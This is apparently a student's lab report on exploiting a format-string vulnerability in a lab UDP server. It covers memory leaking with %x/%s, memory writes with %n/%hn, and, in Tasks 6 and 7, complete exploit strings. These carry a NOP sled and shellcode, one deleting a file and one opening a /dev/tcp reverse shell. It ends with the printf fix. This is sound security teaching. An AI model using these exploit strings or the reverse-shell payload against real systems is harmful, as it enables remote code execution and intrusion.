# Lab2 for CS315

## Some info...

Author: 11711918 吴烨昌

## Tasks

You need to submit a detailed lab report, with screenshots, to describe what you have done and what you have observed. 

Explanation to the observations that are interesting or surprising. 

Important code snippets (if any) followed by explanation

### Task 0

``` bash
sudo sysctl -w kernel.randomize_va_space=0
```

关闭 Linux 内存地址随机化机制，禁用进程地址空间随机化。可以将进程的mmap的基址，stack和vdso页面地址固定下来。**以保证本次lab的顺利进行。**


Makefile:

```makefile
server:
        gcc -z execstack -o server server.c
```

允许执行栈。

### Task 1

``` bash
// On the server VM
$ sudo ./server
// On the client VM
$ nc -u 10.0.2.5 9090
hello!
```



### Task 2



1. What are the memory addresses at the locations marked by ➊, ➋, and ➌? 

   By GDB, I can know that ➊ is `0xbfffed14`, ➋ is `0xbfffed2c`, ➌ is `0xbfffed70`.

   1.  ➊ is `0xbfffed14`. Current stack top.

        

   2. the `$ebp` will be pushed to stack after `$return address`, so ➋ is `0xbfffed2c`.

      

   3. use `p/x &buf` to get the start address of the array `buf`, ➌ is `0xbfffed70`.

   

2. What is the distance between the locations marked by ➊ and ➌?

   $\text{0xbfff_ed70} - \text{0xbfff_ed14} = \text{0x5c}$ 

### Task 3: Crash the Program





For each `%s`, it fetches a value where va_list points to and advances va_list to the next position. 

As we give %s, printf() treats the value as address and fetches data from that address. If the value is not a valid address, the program crashes.

In a word, every `%s` makes `*va++`, and prints strings at `**va`, lots of `%s` eventually make `**va` invalid.

### Task 4: Print Out the Server Program’s Memory

#### A: Stack Data





every `%x` makes `*va++`, and prints data at `*va` in hex. The `*va` is in stack.

use 24 `%x` to make `*va` to print buf

#### B: Heap Data

After task A, we know that after 23 `%x`, the `*va` reachs `&buf`. Then we can use a `%s`  to fetch the value in `**va` (`*buf`). We put the address `0x080487c0` atthe start of the `buf` so `*buf = 0x080487c0`. Then `%s` will print the secret message at the `0x080487c0`。





### Task 5: Change the Server Program’s Memory

#### Task 5.A & B:





use `%n` to write current number of characters printed into `0x0804a040`.

use `%.1076x` to control the string has 1280 (`0x500`) characters.

#### Task C:

Because `0xfffd0000` is a huge number, so we can consider to use `%hn` to write as half byte. That means, we write `0xfffd` to `0x0804a040`   and write `0x0000` to `0x0804a042`.





use this script we can know that the last two address is exactly what we need. Then we change `%.8x` to `%hn`.



Before the first `%hn`, there are `0xfffd` characters, so `0xfffd` will be written to `0x0804a042`.

Before the second `%hn`, there are `0xfffd` characters and three dot characters. So `0x0000` will be written to `0x0804a040`.



Done

### Task 6: Inject Malicious Code into the Server Program

The things we should do:

1. put shell code to stack
2. use technique in task5 to modify return address to start address of shell code

At task1, we know return address is `0xbfffed2c`. More detaild:

1. calculate the start address of shell code, it should be `0xbfffed2c` + 4 * 19 (19 `%x`) + ... (length before `%hn`)
2. we put some `0x90909090` there for convinience.
3. modify `0xbfffed2c` to `0xbfff` , `0xbfffed2e` to `0xed78`



after executing, the server will report segment fault, because there are only `NOP`s at `0xbfffed78` and it will flows to `0xbfffed7a` where has no instructions. 



But it shows that the instructions can be injected.

If using a lot of `NOP` before shell code, it will be easier to make sp eventually flow itself to your shell code. Becaure a range of return addresses are all valid to reach the shell code.





And we can find that the `&buf = 0xbffff120` when executing as `sudo ./server`. So the stack offset is `0x3b0`.

modify `0xbffff0dc` to `0xbfff` , `0xbffff0de` to `0xed78`

``` bash
echo $(printf "\xde\xf0\xff\xbfABCD\xdc\xf0\xff\xbf")\
%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.\
%.48940x.\
%.hn.\
%.12812x.\
%.hn.\
$(printf "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90")\
$(printf "\x31\xc0\x50\x68bash\x68////\x68/bin\x89\xe3\x31\xc0\x50\x68-ccc\x89\xe0\x31\xd2\x52\x68ile \x68/myf\x68/tmp\x68/rm \x68/bin\x89\xe2\x31\xc9\x51\x52\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80")
```

server will:

1. write the whole string to the `buf`
2. for every `%x`, up the `va_list_pointer`.
3. write some chars to adjust counter.
4. write `0xbfff` to `0xbffff0de`
5. write some chars to adjust counter.
6. write `0xf20e` to `0xbffff0dc`
7. now the return address `0xbffff0dc` is `0xbffff20e`
8. meet and skip some `0x90`
9. run the shell code

### Task 7

change shell code from ... to

``` 
\x31\xc0\x50\x68bash\x68\\\\\x68/bin\x89\xe3\x31\xc0\x50\x68-ccc\x89\xe0\x31\xd2\x52\x682>&1\x68<&1 \x6870 0\x681/70\x680.0.\x68127.\x68tcp/\x68dev/\x68 > /\x68h -i\x68/bas\x68/bin\x89\xe2\x31\xc9\x51\x52\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80
```

``` bash
echo $(printf "\xde\xf0\xff\xbfABCD\xdc\xf0\xff\xbf")\
%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.\
%.48940x.\
%.hn.\
%.12812x.\
%.hn.\
$(printf "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90")\
$(printf "\x31\xc0\x50\x68bash\x68////\x68/bin\x89\xe3\x31\xc0\x50\x68-ccc\x89\xe0\x31\xd2\x52\x682>&1\x68<&1 \x6870 0\x681/70\x680.0.\x68127.\x68tcp/\x68dev/\x68 > /\x68h -i\x68/bas\x68/bin\x89\xe2\x31\xc9\x51\x52\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80")
```



### Task 8

add `%s` specifier to `printf`

``` c
void myprintf(char * msg) {
    printf("The address of the msg argument: 0x%.8x\n", (unsigned) msg);
    // This line has a format-string vulnerability
    printf("%s\n", msg); // <====== to fix the problem
    printf("The value of the target variable (after): 0x%.8x\n", target);
}
```

exploit does not work any more.

